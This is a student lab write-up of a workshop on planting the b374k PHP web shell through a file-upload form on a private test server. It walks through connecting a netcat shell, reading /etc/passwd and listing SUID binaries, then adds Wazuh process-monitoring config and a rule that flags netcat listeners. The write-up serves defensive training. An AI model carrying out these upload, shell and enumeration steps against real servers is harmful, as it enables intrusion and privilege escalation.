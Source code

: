 ```yaml
---
title: "Workshop 1 - Web Shell"
author: "Toni Peraira"
date: "2022-03-04"
version: "1.0"
geometry: left=2.54cm,right=2.54cm,top=2.54cm,bottom=2.54cm
header-right: '\headerlogo'
header-includes:
- '`\newcommand{\headerlogo}{\raisebox{0pt}[0pt]{\includegraphics[width=3cm]{../../institut_montilivi.png}}}`{=latex}'
---
```


<!--
pandoc README.md -o Toni_Peraira_Workshop_01_Web_Shell.pdf --from markdown --template eisvogel --listings --pdf-engine=xelatex
-->

# Workshop 1 - Web Shell

In this exercise we will try to execute a reverse shell in a server, in order to detect it with a Wazuh manager installed in another server.


```
Wazuh agent to attack
IP: 192.168.128.49
```

```
Wazuh Manager
IP: 192.168.128.80
```

On the victim machine there is a website with a form that we can exploit.

[http://192.168.128.49/workshop1/](http://192.168.128.49/workshop1/)

We know that the server uses PHP, so we will use a PHP exploit called B374K, a web shell download it from 
[https://github.com/backdoorhub/shell-backdoor-list](https://github.com/backdoorhub/shell-backdoor-list).

We have renamed the exploit to tonipm.php.

!["Uploading exploit"](images/image01.png "Uploading exploit")

All uploaded files can be listed in
[http://192.168.128.49/workshop1/images/](http://192.168.128.49/workshop1/images/)

!["List of public files"](images/image01b.png "List of public files")

Using our exploit [http://192.168.128.49/workshop1/images/tonipm.php](http://192.168.128.49/workshop1/images/tonipm.php).

!["Accessing to b374k webshell"](images/image02.png "Accessing to exploit")

!["Inside b374k"](images/image03.png "Inside b374k")

The first thing we will do is change our shell password.

!["Change shell password"](images/image04.png "Change shell password")

!["Reading /etc/passwd"](images/image05.png "Reading /etc/passwd")

In the exploit there is a screen called *rs* (Reverse Shell) with a list of shells to execute. We will use a PHP.

!["Bind shell"](images/image06.png "Bind shell")

Press 'Go' and initialize reverse shell.

!["Reverse shell with Netcat"](images/image07.png "Reverse shell with Netcat")

```
$ nc 192.168.128.49 13123
b374k shell : connected
/bin/sh: 0: can't access tty; job control turned off
/etc>pwd
/etc
/etc>cat passwd		
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
montilivi:x:1000:1000:montilivi:/home/montilivi:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
bind:x:114:119::/var/cache/bind:/usr/sbin/nologin
ossec:x:115:120::/var/ossec:/sbin/nologin
```

```
/etc>cat /var/www/html/workshop1/images/tonipm.php
<?php

$s_pass = "77a05418992b13fef4ca7b433cb7e33d084476af"; // default password : b374k (login and change to new password)

$s_ver = "2.8"; // shell ver
....
```

```
$ nc 192.168.128.49 13123
b374k shell : connected
/bin/sh: 0: can't access tty; job control turned off
/etc>whoami
www-data
/etc>
```

Find files with SUID (Set owner User ID) permission. This  is a special permission that applies to scripts or applications. If the SUID bit is set, when the command is run, it’s effective UID becomes that of the owner of the file, instead of the user running it.  

```
/etc>find /usr/bin -perm -u=s -type f
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/su
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/at
/usr/bin/sudo
```

!["Files with SUID permission"](images/image10.png "Files with SUID permission")

If we check the list of process running in the vulnerable machine during the metasploit attack, we will see some suspicious processes:

```
/etc>ps -eo user,pid,cmd | grep www-data
www-data     864 /usr/sbin/apache2 -k start
www-data     865 /usr/sbin/apache2 -k start
www-data     866 /usr/sbin/apache2 -k start
www-data     867 /usr/sbin/apache2 -k start
www-data     868 /usr/sbin/apache2 -k start
www-data    2582 /usr/sbin/apache2 -k start
www-data    2583 /usr/sbin/apache2 -k start
www-data    3431 /usr/sbin/apache2 -k start
www-data    3432 /usr/sbin/apache2 -k start
www-data    3433 /usr/sbin/apache2 -k start
www-data    4521 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4522 /bin/sh -i
www-data    4523 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4524 /bin/sh -i
www-data    4563 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4564 /bin/sh -i
www-data    4565 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4566 /bin/sh -i
www-data    4954 ps -eo user,pid,cmd
www-data    4955 grep www-data
```

We can use netstat to get opened TCP connections, but there is no netstat installed in the server.

```
netstat -tnp
```

It can also be done with the command shown below.

```
/etc>grep -v "rem_address" /proc/net/tcp  | awk  '{x=strtonum("0x"substr($3,index($3,":")-2,2)); for (i=5; i>0; i-=2) x = x"."strtonum("0x"substr($3,i,2))}{print x":"strtonum("0x"substr($3,index($3,":")+1,4))}'
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
192.168.128.197:13123
192.168.128.90:60666
192.168.128.80:1514
```

!["Opened TCP connections"](images/image11.png "Opened TCP connections")

Trying to detect reverse shell in Wazuh manager from [https://documentation.wazuh.com/current/proof-of-concept-guide/detect-unauthorized-processes-netcat.html](https://documentation.wazuh.com/current/proof-of-concept-guide/detect-unauthorized-processes-netcat.html)

Add the following configuration in the agent's */var/ossec/etc/ossec.conf*. Get a periodically list of running processes.

```xml
<ossec_config>
    <localfile>
        <log_format>full_command</log_format>
        <alias>process list</alias>
        <command>ps -e -o pid,uname,command</command>
        <frequency>30</frequency>
    </localfile>
</ossec_config>
```

Restart agent.

```
$ systemctl restart wazuh-agent
```

Install Netcat in the agent.

```
$ sudo apt install nmap-ncat
```

Add following rules to */var/ossec/etc/rules/local_rules.xml* at the Wazuh manager.

```xml
<group name="ossec,">
    <rule id="100050" level="0">
        <if_sid>530</if_sid>
        <match>^ossec: output: 'process list'</match>
        <description>List of running processes.</description>
        <group>process_monitor,</group>
    </rule>
    <rule id="100051" level="7" ignore="900">
        <if_sid>100050</if_sid>
        <match>nc -l</match>
        <description>Netcat listening for incoming connections.</description>
        <group>process_monitor,</group>
    </rule>
</group>
```

!["Netcat listening"](images/image12.png "Netcat listening")
